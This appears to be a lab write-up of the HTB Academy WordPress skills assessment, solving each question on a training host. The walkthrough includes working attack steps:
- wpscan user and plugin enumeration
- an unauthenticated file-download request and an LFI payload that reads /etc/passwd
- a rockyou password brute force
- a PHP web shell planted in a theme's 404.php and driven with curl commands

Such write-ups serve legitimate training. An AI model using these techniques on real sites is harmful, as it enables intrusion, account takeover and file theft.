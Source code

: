 ```yaml
---
title: 'HTB Academy: Hacking WordPress Module'
author: saramazal
date: 2024-11-05
categories: [HackTheBox Academy]
tags: [wordpress, htb, cbbh, cpts, skills assessment, wpscan]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/wp-cover.png
---
```



## Penetration Test Scenario:

You have been contracted to perform an external penetration test against the company INLANEFREIGHT that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

## Questions

1. Identify the WordPress version number.
2. Identify the WordPress theme in use.
3. Submit the contents of the flag file in the directory with directory listing enabled.
4. Identify the only non-admin WordPress user. (Format: `<first-name> <last-name>`)
5. Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.
6. What is the version number of the plugin vulnerable to an LFI?
7. Use the LFI to identify a system user whose name starts with the letter “f”.
8. Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory.

## Answers

For identifying the WordPress version number and theme, use one of these tools:

- Wappalyzer Extension
- View Page Source or DevTools
- nmap scan
- `wpscan —url http://<target_ip> —enumerate p`

For receiving results, add target IP to hosts:

```bash
sudo nano /etc/hosts
```

Add: `<target_ip> blog.inlanefreight.local`

Refresh your browser. Now you can find the WordPress version number and theme with Wappalyzer, View Page Source/DevTools, or use `wpscan`.

- **WordPress version number**: 5.1.6
- **WordPress theme in use**: Twenty Nineteen

In our `wpscan`, we can find a link:

`http://blog.inlanefreight.local/wp-content/uploads/`

You can open this link in the browser or use the terminal:

```bash
curl http://blog.inlanefreight.local/wp-content/uploads/upload_flag.txt | html2text
```

- **Flag**: HTB{d1sabl3_……………..!}

For finding users:

```bash
wpscan --url http://blog……/ --enumerate u
```

- **Non-admin user**: Cha**** Wig****

In our `wpscan`, we can find vulnerable plugins and search about them on Google.

One of the plugins: 
- **WordPress Plugin**: Email Subscribers & Newsletters 4.2.2 
- **CVE**: CVE-2019-19985

### Exploit Details
- **Exploit Title**: WordPress Plugin Email Subscribers & Newsletters 4.2.2 — Unauthenticated File Download
- **Google Dork**: “Stable tag” inurl:wp-content/plugins/email-subscribers/readme.txt
- **Date**: 2020–07–20
- **Exploit Author**: KBA@SOGETI_ESEC
- **Vendor Homepage**: [Email Subscribers](https://www.icegram.com/email-subscribers/)
- **Software Link**: [Plugin Archive](https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2)
- **Version**: <= 4.2.2
- **Tested on**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019–19985

**Example Command**:

```bash
curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

- **Flag from vulnerable plugin**: HTB{unauTH_……..!}

From our `wpscan`, we can search the exploit database for:

- **Vulnerable Plugin**: Site Editor
- **CVE ID**: CVE-2018-7422
- **Product**: Site Editor WordPress Plugin — [Site Editor](https://wordpress.org/plugins/site-editor/)
- **Vendor**: Site Editor
- **Tested version**: 1.1.1
- **CVE ID**: CVE-2018–7422

### Proof of Concept
```bash
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **Version number of the plugin vulnerable to an LFI**: 1.1.1

**Use Proof of Concept**:

```bash
http://<$TARGET>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **System user**: frank.mclane

Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory:

```bash
wpscan --url http://blog.inlanefreight.local/ -U erika --passwords /usr/share/wordlists/rockyou.txt
```

Login with: `erika:010203`

Go to the theme editor. Select the Twenty Sixteen Theme. Add to the `404.php` page:

```php
system ($_GET['cmd']);
```

Save and check how it works:

```bash
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=pwd'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/dxxxxxxx603c_flag.txt'

```

- **Final Flag**: HTB{w0rdPr355_………7}


  [![HTB Academy Badge](/images/htb-academy/htb-wp.png){: width="600" height="150" .shadow }](https://academy.hackthebox.com/achievement/badge/e8bc07e8-0d0f-11ef-b18d-bea50ffe6cb4)

[Hacking WordPress Module](https://academy.hackthebox.com/course/preview/hacking-wordpress)

## Great! Happy Hacking!